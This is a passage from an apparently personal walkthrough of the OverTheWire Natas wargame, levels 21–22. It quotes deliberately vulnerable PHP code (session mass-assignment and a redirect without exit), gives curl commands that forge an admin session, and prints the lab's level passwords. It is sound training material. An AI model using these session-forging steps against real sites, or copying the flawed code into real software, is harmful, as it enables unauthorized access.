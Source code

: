 ```
You are an admin. The credentials for the next level are:
Username: natas21
Password: IFekPyrQXftziDEsUr3x21sYuahypdgJ
```

# 22. Level 21

```php
<?php
// http://natas21-experimenter.natas.labs.overthewire.org/index-source.html
// if update was submitted, store it
if(array_key_exists("submit", $_REQUEST)) {
    foreach($_REQUEST as $key => $val) {
    $_SESSION[$key] = $val;
    }
}
?>
```

This give us chance to set `admin` value and save the cookie.

```
$ curl -u natas21:IFekPyrQXftziDEsUr3x21sYuahypdgJ http://natas21-experimenter.natas.labs.overthewire.org/?debug -d 'admin=1' -d 'submit=Update' -c cookie.txt
```

```
$ curl -u natas21:IFekPyrQXftziDEsUr3x21sYuahypdgJ http://natas21.natas.labs.overthewire.org/?debug -b 'PHPSESSID=g6vcjrla9bv83197qugg85juo3'
```

```
You are an admin. The credentials for the next level are:
Username: natas22
Password: chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ
```

# 23. Level 22

```php
<?php
// http://natas22.natas.labs.overthewire.org/index-source.html
if(array_key_exists("revelio", $_GET)) {
    // only admins can reveal the password
    if(!($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1)) {
    header("Location: /");
    }
}
?>
```

We can't see the password in browser because we are redirected to `/`.

Fortunately, there is no `exit` statement after redirection and the password is sent to browser client in fact.
